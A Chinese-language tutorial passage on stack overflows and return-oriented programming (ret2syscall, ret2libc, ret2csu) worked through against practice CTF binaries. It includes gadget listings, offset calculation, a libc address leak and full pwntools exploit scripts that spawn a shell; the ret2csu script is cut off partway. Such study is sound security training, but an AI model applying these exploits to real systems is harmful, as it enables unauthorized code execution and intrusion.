






栈溢出与ROP攻击技术的进阶之路

* * *

# 栈溢出与ROP攻击技术的进阶之路

ROP(Return Oriented Programming)，这是一种高级的内存攻击技术可以用来绕过现代操作系统的各种通用防御（比如内存不可执行和代码签名等），其主要思想是在**栈缓冲区溢出的基础上，利用程序中已有的小片段 (gadgets) 来改变某些寄存器或者变量的值，从而控制程序的执行流程。**

随着 NX 保护的开启，以往直接向栈或者堆上直接注入代码的方式难以继续发挥效果，ROP即是绕过的一种方法。

ROP攻击一般满足如下条件：

*   程序存在溢出，并且可以控制返回地址
*   可以找到满足条件的gadgets以及相应的gadgets

如果gadgets每次的地址不是固定的，需要想办法动态的获取地址

## ret2syscall

ret to syscall，就是调用系统函数达到目的

### 原理

1、系统调用相关知识：[https://zh.wikipedia.org/wiki/%E7%B3%BB%E7%BB%9F%E8%B0%83%E7%94%A8](https://zh.wikipedia.org/wiki/%E7%B3%BB%E7%BB%9F%E8%B0%83%E7%94%A8)

2、用户态、内核态与系统调用

[](https://xzfile.aliyuncs.com/media/upload/picture/20231129203145-41fef57e-8eb3-1.png)

3、系统调用的基本过程

Linux 在x86上的系统调用通过 int 80h 实现，用[系统调用号](https://zh.wikipedia.org/w/index.php?title=%E7%B3%BB%E7%BB%9F%E8%B0%83%E7%94%A8%E5%8F%B7&action=edit&redlink=1)来区分入口函数。操作系统实现系统调用的基本过程是：

1.  应用程序调用库函数（API）；
2.  API 将系统调用号存入 EAX，然后通过中断调用使系统进入内核态；
3.  内核中的中断处理函数根据系统调用号，调用对应的内核函数（系统调用）；
4.  系统调用完成相应功能，将返回值存入 EAX，返回到中断处理函数；
5.  中断处理函数返回到 API 中；
6.  API 将 EAX 返回给应用程序。

应用程序调用系统调用的过程是：

1.  把系统调用的编号存入 EAX；
2.  把函数参数存入其它通用寄存器；
3.  触发 0x80 号中断（int 0x80）。

4、利用程序进行分析

```plain
section .text
    global _start 
_start:
    mov edx, len      ;message length
    mov ecx, msg     ;message to write
    mov ebx, 1      ;file descriptor (stdout)
    mov eax, 4      ;system call number (sys_write)
    int 0x80            ;call kernel
    mov eax, 1      ;system call number (sys_exit)
    int 0x80            ;call kernel

section .data
msg db  'Hello World',0xa
len equ $ - msg
```

该程序调用了sys\_write函数输出Hello World，该函数如下：

```plain
sys_write(unsigned int fd, const char __user *buf, size_t count);
```

前三条mov指令将该函数需要的参数从右往左传输到edx，ecx和ebx，然后把sys\_write的系统调用号4传到eax中，执行int 0x80触发中断即可执行sys\_call()

在系统启动的时候，系统会在sched\_init(void)函数中调用set\_system\_gate(0x80,&system\_call)，设置中断向量号0x80的中断描述符，也就是说实现了系统调用 (处理过程system\_call)和 int 0x80中断的对应，进而通过此中断号用EAX实现不同子系统的调用

```plain
set_system_gate(0x80,&system_call);
```

### 利用

1、检测程序开启的保护：

```plain
qufeng@qufeng-virtual-machine:~/Desktop/pwn1$ checksec ret2syscall 
[*] '/home/qufeng/Desktop/pwn1/ret2syscall'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

可知32位程序，开启了NX保护

2、调入IDA分析

```plain
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp+1Ch] [ebp-64h]
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("This time, no system() and NO SHELLCODE!!!");
  puts("What do you plan to do?");
  gets(&v4);
  return 0;
}
```

通过观察，存在gets函数，仍然是存在栈溢出可能，同时v4相对于ebp的偏移量为108,需要覆盖的返回地址距离v4的距离是108+4=112

3、由于程序中没有已有的代码或者自己编写代码来获取shell，故这里需要借助系统调用

创造条件，使用execve("/bin/sh",NULL,NULL)函数，函数汇编代码如下：

```plain
; NASM
int execve(const char *filename, char *const argv[], char *const envp[]); 
mov eax, 0xb                ; execve系统调用号为11
mov ebx, filename   
mov ecx, argv
mov edx, envp
int 0x80                    ; 触发系统调用
```

*   系统调用号，即 eax 应该为 0xb
*   第一个参数，即 ebx 应该指向 /bin/sh 的地址，其实执行 sh 的地址也可以。
*   第二个参数，即 ecx 应该为 0
*   第三个参数，即 edx 应该为 0

因此我们需要将这些值放在寄存器中，故需要寻找如下类似程序：

```plain
pop eax
ret
```

给其他寄存器赋值也是一样的道理

如图：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231129203253-6af3d422-8eb3-1.png)

过程：溢出后此时返回的地址是pop eax的地址，程序进而转型向该地址执行，此时栈顶的元素为0xb，执行pop eax后eax的值成功地赋值为0xb，接着执行pop eax后一句指令ret，返回下一条指令的地址，需要出栈，正好将程序的执行位置转向了pop ebx所在的位置，重复上述过程，到最后将程序指向了int 0x80处，进行系统调用

那么，如何找到类似的pop eax，ret程序呢——使用工具：ROPgadget

使用如下命令：

```plain
qufeng@qufeng-virtual-machine:~/Desktop/pwn1$ ROPgadget --binary ret2syscall --only 'pop|ret' | grep 'eax'

0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x080bb196 : pop eax ; ret
0x0807217a : pop eax ; ret 0x80e
0x0804f704 : pop eax ; ret 3
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
```

以上可随意选择，为了简单起见，可以选择第4行，即地址为0x080bb196

选择其他的也可以，比如第一行，在地址后面首先放入0xb，再放入addr(/bin/sh),再随意放入8个字符填充esi和edi，再放入填充ecx指令的地址，原理类似，搞清楚执行流程即可

```plain
qufeng@qufeng-virtual-machine:~/Desktop/pwn1$ ROPgadget --binary ret2syscall --only 'pop|ret' | grep 'ebx'

0x0809dde2 : pop ds ; pop ebx ; pop esi ; pop edi ; ret
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x0805b6ed : pop ebp ; pop ebx ; pop esi ; pop edi ; ret
0x0809e1d4 : pop ebx ; pop ebp ; pop esi ; pop edi ; ret
0x080be23f : pop ebx ; pop edi ; ret
0x0806eb69 : pop ebx ; pop edx ; ret
0x08092258 : pop ebx ; pop esi ; pop ebp ; ret
0x0804838b : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080a9a42 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x10
0x08096a26 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x14
0x08070d73 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0xc
0x08048547 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 4
0x08049bfd : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 8
0x08048913 : pop ebx ; pop esi ; pop edi ; ret
0x08049a19 : pop ebx ; pop esi ; pop edi ; ret 4
0x08049a94 : pop ebx ; pop esi ; ret
0x080481c9 : pop ebx ; ret
0x080d7d3c : pop ebx ; ret 0x6f9
0x08099c87 : pop ebx ; ret 8
0x0806eb91 : pop ecx ; pop ebx ; ret
0x0806336b : pop edi ; pop esi ; pop ebx ; ret
0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x0806eb68 : pop esi ; pop ebx ; pop edx ; ret
0x0805c820 : pop esi ; pop ebx ; ret
0x08050256 : pop esp ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0807b6ed : pop ss ; pop ebx ; ret
```

选择第24行，正好可以将后面两个寄存器的值一起填充，地址为0x0806eb90

```plain
qufeng@qufeng-virtual-machine:~/Desktop/pwn1$ ROPgadget --binary ret2syscall  --string '/bin/sh'
Strings information
============================================================
0x080be408 : /bin/sh
```

/bin/sh字符串的位置在0x080be408

```plain
qufeng@qufeng-virtual-machine:~/Desktop/pwn1$ ROPgadget --binary ret2syscall  --only 'int'
Gadgets information
============================================================
0x08049421 : int 0x80

Unique gadgets found: 1
```

int 0x80的地址在0x08049421

具体执行过程如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231129203340-86b99264-8eb3-1.png)

4、构造脚本

```plain
# -*- coding: utf-8 -*-
from pwn import *

p = process('./ret2syscall')
pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
bin_sh_addr = 0x080be408
int_0x80 = 0x08049421
payload = flat(['A'*118,pop_eax_ret,0xb,pop_edx_ecx_ebx_ret,0,0,bin_sh_addr,int_0x80])

p.sendline(payload)
p.interactive()
```

## ret2libc

### 原理

动态链接的情况下，程序链接的时候不会将库中的所有函数都链接进来，只有在执行的时候加载相应的程序。所以控制执行lbic中的函数，通常是返回至某个函数的 plt 处或者函数的具体位置 (即函数对应的 got 表项的内容)，一般选择system("/bin/sh")

1、分3种情况：

*   程序中能够找到system函数和'/bin/sh'字符串
*   程序中只存在一个
*   程序中两者都不存在(准确来说，这种才是真正的ret2libc)

### 利用

1、检测程序开启的保护

```plain
qufeng@qufeng-virtual-machine:~/Desktop/pwn1$ checksec ret2libc3
[*] '/home/qufeng/Desktop/pwn1/ret2libc3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

开启了NX保护,不能写入shell

2、IDA分析

```plain
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+1Ch] [ebp-64h]

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No surprise anymore, system disappeard QQ.");
  printf("Can you find it !?");
  gets(&s);
  return 0;
}
```

存在gets函数，有栈溢出的可能，计算返回地址到可控输入的偏移量（这里使用另一种方法）

```plain
gdb-peda$ pattern create 200
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'

gdb-peda$ r
Starting program: /home/qufeng/Desktop/pwn1/ret2libc3 
No surprise anymore, system disappeard QQ.
Can you find it !?AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA
//拿到ebp的值为EBP: 0x6941414d ('MAAi')

gdb-peda$ pattern offset MAAi
MAAi found at offset: 108
//故偏移量为108+4=112
```

或者：

```plain
qufeng@qufeng-virtual-machine:~/Desktop/pwn1$ cyclic 200
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab

qufeng@qufeng-virtual-machine:~/Desktop/pwn1$ gdb ret2libc3 
gdb-peda$ r
Starting program: /home/qufeng/Desktop/pwn1/ret2libc3 
No surprise anymore, system disappeard QQ.
Can you find it !?aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
//执行结果后半部分
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x62616164 in ?? ()    //出现溢出的位置

gdb-peda$ q
qufeng@qufeng-virtual-machine:~/Desktop/pwn1$ cyclic -l 0x62616164
112
```

3、找system地址及/bin/sh地址

```plain
$info functions         //没有system地址
qufeng@qufeng-virtual-machine:~/Desktop/pwn1$ ROPgadget --binary ret2libc3 --string "/bin/sh"
Strings information
============================================================
```

两个都没有，所以只能自己找

4、泄露地址

libc.so动态链接库里的函数的偏移是固定的，system函数是属于libc的，而且libc中也有/bin/s；每个libc.so中的函数偏移是固定的，libc版本不同，偏移不同。找到libc版本，即可知道每个函数在这个libc文件的偏移量。

**libc基地址 + 函数偏移量 = 函数真实地址**

所以我们目前需要：程序中某个函数的真实地址——>libc版本——>libc基地址

那么如何能够得到一个函数的真实地址呢？

采用got表泄露，got表里存放着就是函数的真实地址，如果函数运行过一遍，里面存放的就是函数的真实地址，如果没有运行，就需要先动态链接重定位，这个过程请详见**动态链接**部分。

观察上面程序，我们的目的是要通过输入使栈溢出从而泄露某个函数的真实地址，而在gets函数之前执行的有puts函数，所以当我们输入值的时候got表中已近有puts函数的真实地址。

```plain
# -*- coding: utf-8 -*-
from pwn import *

p = process('./ret2libc3')
e = ELF('./ret2libc3')

puts_got_addr = e.got['puts']   #得到puts函数的got地址，这个地址存放着puts函数真实的地址，需要泄露的地址
puts_plt_addr = e.plt['puts']   #需要借助puts函数将泄露的地址返回给我们
main = e.symbols['main']        #在调用完puts函数将泄露地址返回给我们后，使程序回到main函数，重新栈溢出

payload = ''
payload += 'A'*112              #填充数据，即需要输入的数据
payload += p32(puts_plt_addr)   #原先这里是gets函数执行完后的返回地址，现覆盖返回地址为puts函数执行地址
payload += p32(main)            #按照上一步，这里应该为puts函数的返回地址，覆盖为main函数的地址
payload += p32(puts_got_addr)   #这里是puts函数的参数
#payload = flat(['A' * 112, puts_plt_addr, main, puts_got_addr])#或者使用这一行代替上面的5行

p.sendlineafter('Can you find it !?', payload)  #表示接收到这些字符串再发送payload

puts_rel_addr = u32(p.recv()[0:4])  #将地址输出出来后再解包，此时就得到了puts函数的真实地址
print hex(puts_rel_addr)
```

```plain
qufeng@qufeng-virtual-machine:~/Desktop/pwn1$ python ret2libc3.py 
[+] Starting local process './ret2libc3': pid 75942
[*] '/home/qufeng/Desktop/pwn1/ret2libc3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
0xf7ddf150
[*] Stopped process './ret2libc3' (pid 75942)
```

得到了puts函数的真是地址为0xf7ddf150

5、exp

然后，我们需要获取libc的版本才能得到libc基地址。如何能够用一个函数真实地址得到版本或者基地址呢？

aslr技术，是地址随机化，虽然是地址随机化，但低十二位是不变的，因为需要内存页对齐，puts函数的真实地址0xf7d54360的低十二位是150

可以根据后十二位查到这个函数所在的libc的版本：[libc\_search](https://libc.blukat.me/)

找到了很多各版本！那就只能多试一下！或者将上面的程序重新运行一下，找\_\_libc\_start\_main的真实地址

```plain
puts_got_addr = e.got['puts']
#改成
puts_got_addr = e.got['__libc_start_main']
#其他的不需要动，当然可以更改变量名称
```

```plain
qufeng@qufeng-virtual-machine:~/Desktop/pwn1$ python ret2libc3.py 
[+] Starting local process './ret2libc3': pid 76030
[*] '/home/qufeng/Desktop/pwn1/ret2libc3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
0xf7dc3550
[*] Stopped process './ret2libc3' (pid 76030)
```

这个网站再查询一下，变成2条结果了，不过这两条结果的偏移量是一样了(不贴图了)

接下来根据公式得到了system函数的偏移量和/bin/sh的偏移量(即str\_bin\_sh)，构造payload，拿到shell

手工太麻烦了，我们使用工具：[LibcSearcher](https://github.com/lieanu/LibcSearcher)

安装：

```plain
git clone https://github.com/lieanu/LibcSearcher.git
cd LibcSearcher
python setup.py develop
```

使用查看readme

构造最终exp（这里选择了找\_\_libc\_start\_main真实地址）

```plain
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *

p = process('./ret2libc3')
e = ELF('./ret2libc3')
context.log_level = 'debug'

main_got_addr = e.got['__libc_start_main']   
puts_plt_addr = e.plt['puts']  
main = e.symbols['main']        

payload = flat(['A' * 112, puts_plt_addr, main, main_got_addr])

p.sendlineafter('Can you find it !?', payload)  

main_rel_addr = u32(p.recv()[0:4])  
print hex(main_rel_addr)

libc = LibcSearcher('__libc_start_main', main_rel_addr)
libcbase = main_rel_addr - libc.dump('__libc_start_main')
system_addr = libcbase + libc.dump('system')
binsh_addr = libcbase + libc.dump('str_bin_sh')
print hex(binsh_addr)

#缓冲区少了8个字节，因为我们虽然是返回到了main函数，但是在main函数之前有一些初始化的函数，这些函数改变了栈，第二次调用main函数的时候缺少了栈初始化的过程，如果我们返回到_start那么偏移就是一样的。
payload = flat(['A' * 104, system_addr, 0xdeadbeef, binsh_addr])
p.sendline(payload)


p.interactive()
```

如果出现下面这种情况：

```plain
qufeng@qufeng-virtual-machine:~/Desktop/pwn1$ python ret2libc31.py
[+] Starting local process './ret2libc3': pid 76172
[*] '/home/qufeng/Desktop/pwn1/ret2libc3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
No matched libc, please add more libc or try others
[*] Stopped process './ret2libc3' (pid 76172)
```

解决办法：

libc数据库中没有对应的版本，下载[https://github.com/niklasb/libc-database，然后替换libc-database目录](https://github.com/niklasb/libc-database%EF%BC%8C%E7%84%B6%E5%90%8E%E6%9B%BF%E6%8D%A2libc-database%E7%9B%AE%E5%BD%95)

根据命令下载不同发行版本的libc

```plain
$ ./get  # List categories
$ ./get ubuntu debian  # Download Ubuntu's and Debian's libc, old default behavior
$ ./get all  # Download all categories. Can take a while!
```

如果遇到这种情况：

```plain
root@qufeng-virtual-machine:/LibcSearcher/libc-database# ./get ubuntu
Will download or update for:
Requirements for download or update 'ubuntu' are not met. Please, refer to README.md for installation instructions
```

就查看README中的Requirements，我是缺少了这个zstd，安装好所有的即可

```plain
qufeng@qufeng-virtual-machine:/$ zstd
The program 'zstd' is currently not installed. You can install it by typing:
sudo apt install zstd
```

继续运行脚本，可能会找到多个脚本，手动选择一个，接着可能出现这种情况：

```plain
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$ ls
[DEBUG] Sent 0x3 bytes:
    'ls\n'
[*] Process './ret2libc3' stopped with exit code -11 (SIGSEGV) (pid 20849)
[*] Got EOF while sending in interactive
```

有很多可能，这里最大的可能是libc版本选错了（可能在查询后有多个结果，需要手动选择，可以重新执行，选另一个试试），也有可能栈内部出现问题

注：这里建议以后还是找\_\_libc\_start\_main的真实地址吧

### 思路

这里我们泄露 \_\_libc\_start\_main 的地址，这是因为它是程序最初被执行的地方。基本利用思路如下

*   泄露 \_\_libc\_start\_main 地址
*   获取 libc 版本
*   获取 system 地址与 /bin/sh 的地址
*   再次执行源程序
*   触发栈溢出执行 system(‘/bin/sh’)

## ret2csu

### 原理

在 64 位程序中，函数的前 6 个参数是通过寄存器传递的,分别是 **RDI, RSI, RDX, RCX, R8 和 R9 寄存器**，如果有更多，则会保存在栈上。

大多数时候我们很难找到每一个寄存器对应的gadgets，但可以利用 x64 下的 **\_\_libc\_csu\_init 中的 gadgets。这个函数是用来对 libc 进行初始化操作的，而一般的程序都会调用 libc 函数，所以这个函数一定会存在。不同版本可能有区别，但是原里一致**

```plain
00000000004005c0 <__libc_csu_init>:
  4005c0:   41 57                   push   %r15
  4005c2:   41 56                   push   %r14
  4005c4:   41 89 ff                mov    %edi,%r15d
  4005c7:   41 55                   push   %r13
  4005c9:   41 54                   push   %r12
  4005cb:   4c 8d 25 3e 08 20 00    lea    0x20083e(%rip),%r12        # 600e10 <__frame_dummy_init_array_entry>
  4005d2:   55                      push   %rbp
  4005d3:   48 8d 2d 3e 08 20 00    lea    0x20083e(%rip),%rbp        # 600e18 <__init_array_end>
  4005da:   53                      push   %rbx
  4005db:   49 89 f6                mov    %rsi,%r14
  4005de:   49 89 d5                mov    %rdx,%r13
  4005e1:   4c 29 e5                sub    %r12,%rbp
  4005e4:   48 83 ec 08             sub    $0x8,%rsp
  4005e8:   48 c1 fd 03             sar    $0x3,%rbp
  4005ec:   e8 0f fe ff ff          callq  400400 <_init>
  4005f1:   48 85 ed                test   %rbp,%rbp
  4005f4:   74 20                   je     400616 <__libc_csu_init+0x56>
  4005f6:   31 db                   xor    %ebx,%ebx
  4005f8:   0f 1f 84 00 00 00 00    nopl   0x0(%rax,%rax,1)
  4005ff:   00 
  400600:   4c 89 ea                mov    %r13,%rdx
  400603:   4c 89 f6                mov    %r14,%rsi
  400606:   44 89 ff                mov    %r15d,%edi
  400609:   41 ff 14 dc             callq  *(%r12,%rbx,8)
  40060d:   48 83 c3 01             add    $0x1,%rbx
  400611:   48 39 eb                cmp    %rbp,%rbx
  400614:   75 ea                   jne    400600 <__libc_csu_init+0x40>
  400616:   48 83 c4 08             add    $0x8,%rsp
  40061a:   5b                      pop    %rbx
  40061b:   5d                      pop    %rbp
  40061c:   41 5c                   pop    %r12
  40061e:   41 5d                   pop    %r13
  400620:   41 5e                   pop    %r14
  400622:   41 5f                   pop    %r15
  400624:   c3                      retq   
  400625:   90                      nop
  400626:   66 2e 0f 1f 84 00 00    nopw   %cs:0x0(%rax,%rax,1)
  40062d:   00 00 00
```

*   从 0x000000000040061A 一直到结尾，我们可以利用栈溢出构造栈上数据来控制 rbx,rbp,r12,r13,r14,r15 寄存器的数据。
*   从 0x0000000000400600 到 0x0000000000400609，我们可以将 r13 赋给 rdx, 将 r14 赋给 rsi，将 r15d 赋给 edi（需要注意的是，虽然这里赋给的是 edi，**但其实此时 rdi 的高 32 位寄存器值为 0（自行调试）**，所以其实我们可以控制 rdi 寄存器的值，只不过只能控制低 32 位），而这三个寄存器，也是 x64 函数调用中传递的前三个寄存器。此外，如果我们可以合理地控制 r12 与 rbx，那么我们就可以调用我们想要调用的函数。比如说我们可以控制 rbx 为 0，r12 为存储我们想要调用的函数的地址。
*   从 0x000000000040060D 到 0x0000000000400614，我们可以控制 rbx 与 rbp 的之间的关系为 rbx+1 = rbp，这样我们就不会执行 loc\_400600，进而可以继续执行下面的汇编程序。这里我们可以简单的设置 rbx=0，rbp=1。

如果这段没看懂，请看下面利用理解：

### 利用

以ret2csu为例

checksec：

```plain
qufeng@qufeng-virtual-machine:~/Desktop/pwn1$ checksec ret2csu
[*] '/home/qufeng/Desktop/pwn1/ret2csu'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

程序64位，开启了堆栈不可执行保护

IDA：

```plain
ssize_t vulnerable_function()
{
  char buf; // [sp+0h] [bp-80h]@1

  return read(0, &buf, 0x200uLL);
}
```

找到漏洞函数

没有system函数和/bin/sh字符串

根据ret2csu原理，loc\_400600处gatget2，loc\_40061A处为gatget1

```plain
.text:0000000000400600 loc_400600:                             ; CODE XREF: __libc_csu_init+54↓j
.text:0000000000400600                 mov     rdx, r13
.text:0000000000400603                 mov     rsi, r14
.text:0000000000400606                 mov     edi, r15d
.text:0000000000400609                 call    qword ptr [r12+rbx*8]
.text:000000000040060D                 add     rbx, 1
.text:0000000000400611                 cmp     rbx, rbp
.text:0000000000400614                 jnz     short loc_400600
.text:0000000000400616
.text:0000000000400616 loc_400616:                             ; CODE XREF: __libc_csu_init+34↑j
.text:0000000000400616                 add     rsp, 8
.text:000000000040061A                 pop     rbx
.text:000000000040061B                 pop     rbp
.text:000000000040061C                 pop     r12
.text:000000000040061E                 pop     r13
.text:0000000000400620                 pop     r14
.text:0000000000400622                 pop     r15
.text:0000000000400624                 ret
```

过程：main——>gatget1——>gatget2——>gatget1——>main重复3次

*   利用栈溢出执行 libc\_csu\_gadgets 获取 write 函数地址，并使得程序重新执行 main 函数
    
    [](https://xzfile.aliyuncs.com/media/upload/picture/20231129203813-299af270-8eb4-1.jpg)
    

*   再次利用栈溢出执行 libc\_csu\_gadgets 向 bss 段写入 execve 地址以及 '/bin/sh’ 地址，并使得程序重新执行 main 函数。
    
    [](https://xzfile.aliyuncs.com/media/upload/picture/20231129203941-5deb0b64-8eb4-1.jpg)
    

*   再次利用栈溢出执行 libc\_csu\_gadgets 执行 execve('/bin/sh') 获取 shell。
    
    [](https://xzfile.aliyuncs.com/media/upload/picture/20231129204004-6bdb416c-8eb4-1.jpg)
    

脚本：

```plain
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *

p = process('./ret2csu')
e = ELF('./ret2csu')
context.log_level = 'debug'

gatget1_addr = 0x000000000040061A
gatget2_addr = 0x0000000000400600
main_got_addr = e.symbols['main']
write_got_addr = e.got['write']
read_got_addr = e.got['read']
bss_addr = e.bss()

def csu(rbx,rbp,r12,r13,r14,r15,main_addr):
    payload = 'A'*136
